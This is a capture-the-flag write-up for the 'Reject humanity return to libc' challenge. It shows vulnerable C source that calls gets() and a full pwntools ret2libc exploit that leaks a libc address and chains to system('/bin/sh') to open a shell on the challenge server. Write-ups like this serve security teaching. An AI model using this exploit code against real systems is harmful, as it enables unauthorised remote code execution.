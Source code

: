 # Reject humanity return to libc

Author: [roerohan](https://github.com/roerohan)

## Source

```
Hello Agent,
<REDACTED>, a bio-terrorist organisation located in the west have stolen serum Id:<Redacted> from our special research facility.
The serum has the ability to reverse evolution of a species by 100's of years and can return humans back to their former monkey selves.
We have learnt that the organisation prepares to release the serum as a gas form in unknown public area using a dipenser.The only information we have about the dispenser is the login portal info,the login program running, and its libc version

Your mission is to break in and disarm the dispenser.The connection info,login program, and the libc library is given below.Be warned the organisation are known pranksters.

nc overly.uniquename.xyz 2052
```

## Exploit

The binary for the challenge is included in [challenge](./challenge). The source code for the challenge [dispenser_login.c](./dispenser_login.c) is present below.

```c
#include<stdio.h>
#include<string.h>

void disarm_dispenser(){
    char password[256];
    FILE *password_file;
    password_file = fopen("password.txt","r");
    fgets(password,sizeof(*password_file),password_file);
    printf("Enter password to disable dispenser:\n");
    char user_input[256];
    gets(user_input);
    int eq = strncmp(user_input,password,256);
    if (eq != 0) {
        printf("Incorrect password\n");
    }
    else {
        printf("Password correct\n");
        printf("Disarming dispenser (or not lol)...\n");
    }

}

int main() {
    disarm_dispenser();    
}
```

As you can see, the `gets()` command has been used in the `disarm_dispenser` function. `gets()` is an insecure command as it is vulnerable to buffer overflow exploits. In this exploit, you can keep on adding items on the memory stack of the function until it overwrites the return address. If you overwrite the return address carefully, you can technically jump to any function in memory. The only challenge remaining is to find the location of the `system` function in memory, and jump to that with `/bin/sh` string in the RDI register.


The following script is written using `pwntools`. In short, it connects to the server, calculates the base address of `libc` by comparing the actual address of the `__libc_start_main` function with the address present in the binary. Once we get the base address where `libc` is loaded, we can find the offset of `system`, and jump to that function using a second pass in the main function. The size of the stack is 0x210, followed by 0x8 bits of saved RBP. The exploit can be better understood with the help of the following script.

```py
from pwn import *

local = False

host = 'overly.uniquename.xyz'
port = 2052

elf = ELF('./challenge')
rop = ROP(elf)

if local:
    p = elf.process()
    libc = ELF('/usr/lib/libc.so.6')
else:
    p = remote(host, port)
    libc = ELF('./lib/x86_64-linux-gnu/libc-2.31.so')

PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
RET = rop.find_gadget(['ret'])[0]

OFFSET = b'A' * (0x210 + 0x8)

log.info("puts@plt: " + hex(PUTS_PLT))
log.info("main@plt: " + hex(MAIN_PLT))
log.info("POP RDI: " + hex(POP_RDI))

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    rop_chain = [
        POP_RDI, FUNC_GOT,
        PUTS_PLT,
        MAIN_PLT,
    ]

    rop_chain = b''.join([p64(i) for i in rop_chain])
    payload = OFFSET + rop_chain
    
    print(p.recvuntil('Enter password to disable dispenser:\n'))
    print(payload)

    p.sendline(payload)

    received = p.recvline().strip()
    print(received)
    print(p.recvline())
    received = p.recvline().strip()
    print(received)
    leak = u64(received.ljust(8, b'\x00'))
    libc.address = leak - libc.symbols[func_name]

    return hex(leak)
x = get_addr('__libc_start_main')
log.info("libcstart main " + x)
log.info('Libc base: ' + hex(libc.address))

BIN_SH = next(libc.search(b'/bin/sh'))
SYSTEM = libc.symbols['system']
EXIT = libc.symbols['exit']

ROP_CHAIN = [
    RET,
    POP_RDI, BIN_SH,
    SYSTEM,
    EXIT,
]

ROP_CHAIN = b''.join([p64(i) for i in ROP_CHAIN])

payload = OFFSET + ROP_CHAIN

print(p.recvuntil('Enter password to disable dispenser:\n'))

p.sendline(payload)

p.interactive()
```

